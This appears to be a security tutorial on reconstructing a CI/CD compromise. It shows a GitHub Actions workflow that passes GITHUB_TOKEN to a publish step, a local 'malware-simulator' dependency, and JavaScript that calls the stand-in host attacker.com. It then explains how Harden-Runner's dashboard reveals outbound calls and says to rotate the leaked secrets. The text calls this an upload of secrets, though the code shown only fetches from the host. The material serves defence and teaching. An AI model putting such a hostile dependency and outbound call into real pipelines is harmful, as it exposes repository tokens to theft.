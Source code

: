 # Forensically Reconstruct An Incident Post-Compromise

## Introduction
In this type of vulnerability, an actor with `write` permission can exfiltration of sensitive information and once the workflow runs they delete it to remove the evidance.

## Example Action:
Description: An example GitHub Actions workflow that does upload sensitive information like GITHUB_TOKEN to attacker.com.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is overwriting the `index.js` file.
```
https
  .get("https://attacker.com/", (res) => {
    if (res.statusCode < 200 || res.statusCode >= 300) {
      console.error("HTTP Error: " + res.statusCode);
      process.exit(1); // Exit with a failure code on HTTP error status
    }

    let data = "";

    res.on("data", (chunk) => {
      data += chunk;
    });

    res.on("end", () => {
      console.log(data);
    });
  })
  .on("error", (err) => {
    console.error("Error: " + err.message);
    process.exit(1); // Exit with a failure code
  });
```

## Steps to Identify the Vulnerability:

### Review File Tempering:
When `step-security/harden-runner@v2` is added in the workflow you can open the `StepSecurity Dashboard` and click on the `Runtime Security` tab. You should see a record for the workflow run and can click on it to view the outbound calls made during the run, and what process made the call. This is important forensic information that can help confirm the incident, and identify the step and the process that exfiltrated secrets. It can also be used to understand who ran the workflow to identify whose credentials have been compromised.


## Steps to Mitigate the Vulnerability:

# Remove permissions from user and rotate the leaked secrets
Once you have identified the actor who had done exfiltration of sensitive information you can remove their `write` permission and rotate all the secrets which were leaked.




